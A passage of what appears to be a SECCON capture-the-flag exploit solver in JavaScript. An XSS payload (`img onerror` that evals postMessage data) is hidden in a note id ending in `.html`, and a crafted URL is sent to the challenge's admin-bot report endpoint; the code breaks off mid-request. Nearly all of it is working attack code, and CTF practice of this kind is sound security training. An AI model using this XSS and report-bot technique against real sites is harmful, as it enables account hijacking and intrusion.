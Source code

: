 `public/back.html`:
```html
<script>
  const n = parseInt(new URLSearchParams(location.search).get("n"));
  history.go(-n);
</script>
```

`index.js`:
```javascript
const path = require("node:path");

const fail = (message) => {
  console.error(message);
  return process.exit(1);
};

const SECCON_BASE_URL = process.env.SECCON_BASE_URL || fail("No SECCON_BASE_URL");
const ATTACK_BASE_URL = process.env.ATTACK_BASE_URL || fail("No ATTACK_BASE_URL");

if (!ATTACK_BASE_URL.startsWith("http://")) {
  fail("Invalid ATTACK_BASE_URL: the CSRF will fail");
}

const LISTEN_PORT = process.env.PORT || "8080";

const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

const exploit = async () => {
  const noteId =
    // XSS payload:
    `<img src=0 onerror="window.addEventListener('message',e=>eval(e.data))">` +
    // .html -> Content-Type: text/html
    // ref. https://github.com/broofa/mime/blob/main/types/standard.js
    ".html";

  if (noteId.length > 100) {
    // ref. https://github.com/delvedor/find-my-way/blob/v7.3.0/index.js#L87
    fail(`Too long id: ${noteId}`);
  }
  if (
    noteId.includes("..") ||
    noteId.includes("/") ||
    noteId.includes("\\") ||
    noteId.includes("%")
  ) {
    fail(`Invalid id: ${noteId}`);
  }

  const baseUrl = "http://web:3000";

  const reportedUrl = `${ATTACK_BASE_URL}/index.html?${new URLSearchParams({
    baseUrl,
    noteId,
  })}`;

  const res = await (
    await fetch(`${SECCON_BASE_URL}/report`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        url: reportedUrl,
      }),
```